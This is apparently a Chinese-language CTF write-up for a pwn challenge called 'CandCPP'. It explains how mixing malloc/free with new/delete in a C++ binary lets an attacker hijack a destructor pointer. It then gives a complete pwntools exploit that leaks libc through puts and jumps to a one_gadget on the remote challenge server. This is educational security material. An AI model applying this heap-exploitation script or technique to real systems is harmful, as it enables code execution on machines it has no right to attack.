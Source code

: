 ```yaml
---
title: CandCPP
date: 2019-04-10 22:12:37
tags:
---
```

a problem interesting
<!--more-->
# ..
时间过去挺久了..一直没时间写wp.
挺有意思的一道题..
发现自己c++还是做的太少了.
# start
程序有5个主要功能:malloc，new,free,delete
# analysis
逆向能力太差了搞了半天才知道程序在干啥malloc 和new 功能都是输入长度然后经过计算用malloc/new获得内存然后填上我们的输入.
不同的是结构new有个析构函数:
`malloc`:
```python
        |chunk_size|
--------------------
blank   |input     |
input   |blank     |
input   |input     |
....
```
`new`:
```
lcc=littel_chunk_ct
dc=deconstruction

        |chunk_size|
--------------------
lcc     |dc        |
input   |input     |
dc      |input     |
input   |dc        |
''''

```
`free`:
free没什么好说的没啥毛病

`delete`:
从最后一个析构函数开始往前一个个调用

# 漏洞
整个程序看下来没有单独形成的漏洞.只有`malloc free`/`new delete`混用产生的一些问题
首先new 出来的chunk用free回收因为未对齐0x10所以不能利用(我认为的而已哈哈..)
然后是malloc 的chunk用delet回收因为存在析构函数的问题和结构不同的问题(`chunk_size`会被认为成是`littel_chunk_ct`所以本来指向chunk尾部的指针指向了远处)所以我们可以再malloc一次在远处填上一些指向我们想要调用的函数的指针的地址.成功劫持执行流

# exp
```python
from pwn import *
main=0x0000000004009A0
leak=0x000000000400E10
name=0x000000000602328
def set_name(name):
	p.sendafter("name: ",name)
def cmd(c):
	p.sendlineafter(">> ",str(c))
def add(l,s="1\n"):
	cmd(1)
	p.sendlineafter("string\n",str(l))
	p.sendafter("string\n",s)
def new(l,s):
	cmd(3)
	p.sendlineafter("string\n",str(l))
	p.sendafter("string\n",s)
def free(idx):
	cmd(2)
	p.sendlineafter("string\n",str(idx))
def delete(idx):
	cmd(4)
	p.sendlineafter("string\n",str(idx))
def show(idx):
	cmd(5)
	p.sendlineafter("string\n",str(idx))
context.log_level='debug'
libc=ELF("./candcpp").libc
#p=process("./candcpp")
p=remote("154.8.222.144",9999)
set_name(p64(main)+p64(leak)[:-1]+"\n")
add(0xf,p64(0xdeadbeef)+"\n")
add(0x1b0,"\n")
add(0x1a0,p64(name)+p64(name+8)[:-1]+p64(name+8)+"B"*8+"C"*7+p64(name)+"\n")
delete(0)
base=int(p.readline(),16)-libc.symbols['puts']
log.warning(hex(base))
set_name(p64(0xf02a4+base)+p64(leak)[:-1]+"\n")
add(0xf,p64(0xdeadbeef)+"\n")
add(0x1b0,"\n")
add(0x1a0,p64(name)+p64(0xdeadbeef)[:-1]+p64(name)+"B"*8+"C"*7+p64(0xcafebabe)+"\n")
#gdb.attach(p,'b *0x000000000400DBD')
delete(0)


p.interactive("n132>>")
```
## 
附上 [官方分析][1] 感觉自己的C++学得太差了...理解了好久...后来还自作聪明认为malloc delete也是会因为未对齐而无法利用...

[1]:https://zhuanlan.kanxue.com/article-8259.htm